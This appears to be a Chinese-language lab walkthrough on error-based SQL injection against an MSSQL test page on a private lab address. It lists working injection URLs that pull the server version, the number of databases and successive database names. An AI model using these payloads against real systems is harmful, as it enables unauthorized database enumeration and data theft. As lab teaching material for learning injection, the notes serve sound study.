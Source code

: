     ​![image](assets/image-20240905170250-g6fnvm4.png)​

    ​![image](assets/image-20240905170320-0wzec0x.png)​

## 报错注入

1. 查询数据库信息

    http://192.168.100.225/less-2.asp?id=1 and @@version=1--+

    ​![image](assets/image-20240905173837-nnjyd29.png)​

    http://192.168.100.225/less-2.asp?id=1 and 1=(select name from sys.databases where database_id=4)--+

    ​![image](assets/image-20240905174130-xa9lzzm.png)​

    http://192.168.100.225/less-2.asp?id=1 and 1=(select quotename(count(name)) from sys.databases)--+

    ​![image](assets/image-20240905174207-f7zdk1b.png)​

    http://192.168.100.225/less-2.asp?id=1 and (select top 1 name from sys.databases)=1--+

    ​![image](assets/image-20240905174356-y6xqlmz.png)​

    http://192.168.100.225/less-2.asp?id=1 and (select top 1 name from sys.databases where name not in (select top 3 name from sys.databases))=1--+

    ​![image](assets/image-20240905174531-bbyuj6k.png)​
